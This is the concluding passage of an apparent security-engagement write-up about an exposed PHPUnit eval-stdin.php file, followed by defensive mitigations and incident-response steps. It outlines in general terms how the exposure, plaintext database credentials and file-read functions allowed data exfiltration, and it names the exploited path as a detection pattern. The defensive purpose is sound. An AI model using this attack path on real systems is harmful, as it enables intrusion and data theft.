
## Conclusion
This engagement showed how an exposed vendor file (`eval-stdin.php` from PHPUnit) combined with permissive file placement and stored credentials can lead to serious data exposure — even without full shell access. Key takeaways:
* Leaving development/test libraries or tooling under a web-accessible `vendor` tree is dangerous. Files intended for developer use (like PHPUnit utilities) must never be reachable from the web.
* Sensitive configuration data (like DB credentials) stored in plain text within the web root greatly increases risk when code disclosure occurs.
* Even when `exec`-style functions are disabled, attackers can still abuse application-level file-read and database-access functionality to exfiltrate data.
* Internal network services (databases, backups) are at risk when a web server can reach them and credentials are present on that host.
<!-- -->
If you are defending a system, treat the above as a demonstration of impact — **not** as an instruction to perform similar actions. Immediately prioritize containment and remediation if you discover a similar situation in your environment.
## Recommended mitigations and hardening (defensive, non-actionable)
Below are defensive measures to reduce the risk of code- and data-exposure like the scenario above. These recommendations are focused on configuration, operational controls, and incident response — not on exploit techniques.
### 1. Patch and remove unsafe dev/test artifacts
* **Remove PHPUnit and other development tooling** from production deployments. Tools like PHPUnit should never be in production `vendor` directories that are accessible by the webserver.
* **Keep dependencies up to date**. Apply vendor and library security patches promptly — in this case, the vulnerable `eval-stdin.php` was fixed in patched PHPUnit releases.
### 2. Prevent web access to non-public files
* **Block `/vendor` and other development directories** at the webserver level (via webserver config or rewrite rules) so vendor files cannot be served as public assets.
* **Use `open_basedir` / proper webroot layout** so that only intended application assets are accessible from the document root.
### 3. Secure application configuration & secrets
* **Avoid hard-coding credentials** in files inside the webroot. Store secrets outside the web root, use environment variables injected securely at runtime, or use a secrets manager (vault, cloud secret store).
* **Encrypt or otherwise protect configuration files** when feasible and rotate credentials on a regular schedule (and after any suspected compromise).
* **Least privilege for DB accounts** — ensure database accounts used by the web app have minimal permissions necessary for their operation (no unnecessary admin rights).
### 4. Network segmentation and access controls
* **Segment internal networks** so that compromised web hosts cannot freely reach internal database subnets. Use firewalls and host-based rules to restrict which application servers can access which DB servers.
* **Restrict management interfaces** and internal tools to trusted administrative networks or via jump hosts/VPNs.
### 5. Hardening the PHP runtime and the host
* **Minimize enabled PHP functions** carefully, but be aware that relying on `disable_functions` alone is not sufficient to prevent data exfiltration through application logic.
* **Harden file permissions** so that the webserver user cannot read configuration files that are not required for operation.
* **Run services with least privilege**; avoid running the webserver as overly privileged users.
### 6. Web application controls
* **Input validation and least-privilege application features** — do not expose ad-hoc file-read/exec features to the web in production.
* **Implement a WAF** (Web Application Firewall) to detect and block known attack signatures (including attempts to access unusual PHP files under the vendor tree).
* **Disable serving of `.php` files from directories that should not contain executable scripts** (e.g., storage, uploads).
### 7. Monitoring, detection, and logging
* **Log web requests and server errors** centrally and monitor for suspicious access patterns (e.g., requests to `vendor/phpunit/.../eval-stdin.php`).
* **Alert on anomalous database connections** or unusual query volumes from web hosts.
* **Implement file integrity monitoring** to detect unexpected files or payloads dropped on the webroot.
### 8. Incident response steps (high level)
If you detect a similar compromise or exposure:
* **Isolate the affected host** from the network (to stop further exfiltration).
* **Rotate credentials** that were present on the host (database, API keys) after containment — do this via a secure process.
* **Collect forensic evidence** (logs, disk images) and preserve it for investigation.
* **Check for persistence** (webshells, unauthorized scheduled tasks, new users) and remediate thoroughly.
* **Restore from trusted backups** if necessary and ensure the vulnerability that led to the compromise is patched before returning the host to production.
* **Notify stakeholders and comply with applicable reporting laws/regulations.**
### 9. Preventative practices
* **Secure CI/CD pipelines** so development dependencies are never pushed to production unintentionally.
* **Perform regular code reviews and automated scanning** (SAST/DAST) and scheduled vulnerability scans to detect exposures like web-accessible vendor directories.
* **Periodic pen-testing and threat-modeling** to identify attack paths focusing on sensitive data exposure.